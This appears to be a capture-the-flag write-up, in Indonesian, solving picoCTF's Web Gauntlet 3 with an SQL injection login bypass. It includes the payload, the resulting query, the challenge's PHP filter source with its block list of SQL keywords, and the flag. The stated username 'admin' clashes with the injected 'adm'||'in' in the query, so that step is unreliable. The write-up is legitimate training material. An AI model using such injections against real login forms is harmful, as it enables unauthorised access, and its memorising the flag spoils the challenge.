 # Web Gauntlet 3
- Link: https://play.picoctf.org/practice/challenge/275?category=1&page=2

## Tantangan
Last time, I promise! Only 25 characters this time. Log in as admin Site: http://mercury.picoctf.net:32946/ Filter: http://mercury.picoctf.net:32946/filter.php

## Penyelesaian
- Buka URL http://mercury.picoctf.net:32946/ di browser

- Buka URL http://mercury.picoctf.net:32946/filter.php ditab baru untuk membuka daftar string yang di filter

- Disini kita bisa membypass login dengan username dan password sebagai berikut
```sh
username: admin
password: a' is not 'b
```

- Inputan diatas akan menghasilkan query sebagai berikut
```sh
SELECT username, password FROM users WHERE username='adm'||'in' AND password='a' is not 'b'
```
- Percobaan diatas berhasil

- Sekarang kita reload halaman http://mercury.picoctf.net:32946/filter.php untuk mendapatkan flag. Isi dari halaman tersebut adalah sebagai berikut
```sh
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}
?>
```
- Flag
```sh
picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}
```